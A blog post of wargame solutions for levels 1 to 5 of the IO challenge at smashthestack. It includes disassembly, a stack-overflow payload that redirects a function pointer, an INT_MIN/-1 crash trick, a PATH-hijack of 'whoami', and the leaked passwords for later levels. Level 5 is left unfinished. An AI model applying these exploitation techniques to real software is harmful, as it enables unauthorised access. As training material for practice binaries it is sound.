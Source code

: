 ```yaml
---
layout: post
title: "IO | a wargame @ io.smashthestack.org - solutions level 1-?"
date: 2015-01-19
comments: true
categories:
---
```


A wargame consisting of challenges associated with reverse engineering and misc.

##Level01

___

```
.text:08048085                 call    puts
.text:0804808A                 call    fscanf
.text:0804808F                 cmp     eax, 271
.text:08048094                 jz      YouWin
.text:0804809A                 call    exit

```

```
level1@io:~$ /levels/level01 
Enter the 3 digit passcode to enter: 271
Congrats you found it, now read the password for level2 from /home/level2/.pass
sh-4.2$ cat /home/level2/.pass 
3ywr07ZFw5IsdKzU
```

##Level02
I didn't manage to come up with a solution completly on my own, I should read man pages more careful.
___
>man signal
"...also dividing the most negative
integer by -1 may generate SIGFPE."

The part where floating-point exception handler are set:

```
.text:0804858A mov     dword ptr [esp+4], offset catcher ; handler
.text:08048592 mov     dword ptr [esp], 8              ; sig
.text:08048599 call    _signal                         ; signal(SIGFPE, catcher)
```

The part where the division takes place that enables us to cause an exception with the information from the man-page:

```
.text:080485C9 mov     [esp+1Ch], eax                  ; 2nd arg
.text:080485CD mov     edx, ebx
.text:080485CF mov     eax, edx
.text:080485D1 sar     edx, 1Fh
.text:080485D4 idiv    dword ptr [esp+1Ch]             ; 1ndArg/2ndArg, so we must give min int/ -1

```

Everyone likes python :)

```
import sys

print " " + str(-sys.maxint - 1)+ " -1"

```

And the result:

```
level2@io:/tmp$ /levels/level02 $(python level02.py)
source code is available in level02.c

WIN!
sh-4.2$ cat /home/level3/.pass
IFd92yzOnSMv9tkX
```

##Level03

___

This one was a stack vulnerability in it's purest form.

```
.text:08048510 call    _strlen
.text:08048515 mov     [esp+8], eax                    ; size of argv[1]
.text:08048519 mov     eax, [ebp+arg_4]
.text:0804851C add     eax, 4
.text:0804851F mov     eax, [eax]
.text:08048521 mov     [esp+4], eax                    ; argv[1] adress
.text:08048525 lea     eax, [ebp+dest]                 ; destination buffer
.text:08048528 mov     [esp], eax
.text:0804852B call    _memcpy                         ; theres no limitation of the input argument size

```
Obviously we can write an arbitrary amount of data into the input buffer.
The stack layout:

```
.text:080484C8 var_5C          = dword ptr -5Ch
.text:080484C8 dest            = byte ptr -58h
.text:080484C8 var_C           = dword ptr -0Ch
.text:080484C8 arg_0           = dword ptr  8
.text:080484C8 arg_4           = dword ptr  0Ch
```

Var_C is later called, normally holding the adress to the function called bad.
We want to overwrite it with the adress to the function called good :)

```
.text:0804856D mov     eax, [ebp+var_C]
.text:08048570 call    eax
```

So how big is the offset?
58h-0C=4C which is 76 byte.
Lets verify it.

```python
>>> print "A"*76+"BBBB"
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB
```

![EAXOwned](/images/EAXLevel3.png)

Awesome!

Adress of good: 0x08048474

So our exploit will be:

```python
print "A"*76+\x74\x84\x04\x08"

```

```
level3@io:/levels$ ./level03 $(python -c "print \"A\"*76+\"\x74\x84\x04\x08\"")
This is exciting we're going to 0x8048474 Win.
sh-4.2$ cat /home/level4/.pass
nSwmULj2LpDnRGU2
```

##Level04

___
The program:

```c
//writen by bla
#include <stdlib.h>
#include <stdio.h>

int main() {
        char username[1024];
        FILE* f = popen("whoami","r");
        fgets(username, sizeof(username), f);
        printf("Welcome %s", username);

        return 0;
}

```

I'll didn't know how to solve it at all really, guess when I meet a similar problem in the future the PATH will be more accessible in my head :)
There's a good writeup here: [http://chousensha.github.io/blog/2014/07/07/smashthestack-io-level-4/](http://chousensha.github.io/blog/2014/07/07/smashthestack-io-level-4/)

```bash
level4@io:/tmp/fisk$ echo "cat /home/level5/.pass" >> whoami
level4@io:/tmp/fisk$ chmod 777 whoami
level4@io:/tmp/fisk$ PATH="/tmp/fisk:$PATH"
level4@io:/tmp/fisk$ echo $PATH
/tmp/fisk:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
level4@io:/tmp/fisk$ /levels/level04
Welcome LOoCy5PbKi63qXTh
```


##Level05

___

A basic overflow.

```
.text:080483E1 mov     [esp+4], eax                    ; src, argv[1]
.text:080483E5 lea     eax, [ebp+overFlowableBuff]
.text:080483EB mov     [esp], eax                      ; dest
.text:080483EE call    _strcpy                         ; strcpy(overFlowableBuff, argv[1])
```

As overFlowableBuff is a local variable the saved return adress are overflowable as it is located further down the stack.

So lets grab that offset with [Pattern.py](http://tomasuh.github.io/2015/01/17/Pattern-create-and-offset.html). 

```bash
tomasuh@crunch:~/programming/pentest/io$ pattern.py -pc 400
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2A
```

retn will pop 0x37654136 into EIP as shown here:

![Stack](/images/level5Stack.png)

```bash
tomasuh@crunch:~/programming/pentest/io$ pattern.py -pc 400 -po 0x37654136 -hl
Offset to pattern: 140
```

So lets craft our exploit with a execve(/bin/sh) shellcode.

This shit ain't done yet.


##Level06

___


##Level07

___


